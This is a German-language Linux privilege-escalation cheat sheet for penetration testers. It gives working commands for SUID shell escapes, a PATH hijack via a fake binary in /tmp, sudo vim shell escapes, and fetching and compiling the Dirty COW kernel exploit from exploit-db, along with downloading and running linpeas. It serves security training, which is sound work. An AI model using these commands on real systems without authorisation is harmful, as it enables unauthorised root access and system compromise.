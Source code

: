 # Linux Privilege Escalation

## 📁 Kontext & Ziel

Diese Datei dient als strukturiertes Cheat Sheet zur Privilege Escalation auf Linux-Systemen im Rahmen von Post-Exploitation. Sie hilft Pentestern und Sicherheitsanalysten, systematisch nach Wegen zu suchen, um aus eingeschränkten Benutzerrechten Root-Rechte zu erlangen. **Ausschließlich für legale Schulungszwecke gedacht.**

---

## 🔍 1. System Checks & Enumeration

### Grundlegende Informationen

```bash
uname -a              # Kernel- und Systeminformationen
cat /etc/os-release   # Distribution & Versionsinfo
id                    # Benutzer & Gruppen
whoami                # aktueller Nutzer
hostname              # Hostname anzeigen
```

### Berechtigungen

```bash
sudo -l               # Welche Befehle kann der Benutzer mit sudo ausführen?
groups                # Gruppenzugehörigkeit
```

### Filesystem nach Hinweisen durchsuchen

```bash
find / -perm -4000 2>/dev/null       # SUID-Binaries
find / -type f -perm -u=s 2>/dev/null
find / -writable -type d 2>/dev/null # beschreibbare Verzeichnisse
```

---

## ⚖️ 2. SUID-Binaries & Exploits

SUID-Binaries werden mit den Rechten des Dateieigentümer (oft root) ausgeführt.

### Bekannte gefährliche SUIDs:

```bash
/usr/bin/vim
/usr/bin/find
/usr/bin/nmap
/usr/bin/perl
/usr/bin/python
```

### GTFOBins — SUID Missbrauch

GTFOBins ist eine Sammlung von Binaries, die sich zur Escalation nutzen lassen:
[https://gtfobins.github.io/](https://gtfobins.github.io/)

Beispiel (wenn `find` SUID ist):

```bash
find . -exec /bin/sh -p \; -quit
```

---

## 📁 3. Exploitable Binaries & Schwachstellen

### PATH-Variable manipulieren

```bash
# Falls ein Skript ein nicht vollqualifiziertes Kommando wie 'ls' aufruft
# und root-Rechte hat:
export PATH=/tmp:$PATH
echo "/bin/sh" > /tmp/ls
chmod +x /tmp/ls
```

### Cronjobs & Writable Scripts

```bash
cat /etc/crontab
ls -la /etc/cron.*
# Suche nach Cronjobs, die als root laufen und beschreibbare Skripte ausführen
```

### Sudo ohne Passwort

```bash
# Wenn sudo -l sowas zeigt:
(root) NOPASSWD: /usr/bin/vim
sudo vim -c '!sh'
```

---

## 🚀 4. Kernel Exploits (lokale Ausnutzung)

Falls keine "Low Hanging Fruits" über SUIDs/Sudo/etc., dann auf Kernel-Level prüfen:

### Kernel-Version ermitteln

```bash
uname -r
```

### Exploit-Sammlung

* [https://www.exploit-db.com/](https://www.exploit-db.com/)
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
* [https://github.com/shellcodes/PayloadsAllTheThings](https://github.com/shellcodes/PayloadsAllTheThings)

> **Wichtig:** Nicht jeder Exploit funktioniert auf jeder Version. Führe sie in isolierter Umgebung aus (VM).

Beispiel: Dirty COW (CVE-2016-5195)

```bash
wget https://www.exploit-db.com/raw/40616
# Kompilieren und ausführen, um Root-Zugriff zu erlangen
```

---

## 🏗️ Tools zur Privilege Escalation

| Tool                                                                        | Zweck                                              |
| --------------------------------------------------------------------------- | -------------------------------------------------- |
| [linpeas.sh](https://github.com/carlospolop/PEASS-ng)                       | Automatisiertes Enumeration-Skript                 |
| [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) | Zeigt Kernel-Exploits für das Zielsystem an        |
| pspy                                                                        | Prozesse und Cronjobs ohne Root anzeigen           |
| LES (LinEnum)                                                               | Systematische Prüfung auf Escalation-Möglichkeiten |

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

## 🔨 Ethik & Rechtlicher Hinweis

Dieses Dokument dient **ausschließlich zu Schulungszwecken**.

* **Nutze dieses Wissen niemals für unautorisierte Zugriffe!**
* Nur in Testumgebungen oder mit ausdrücklicher Erlaubnis verwenden!

---

Stay legal. Stay ethical. 🚀
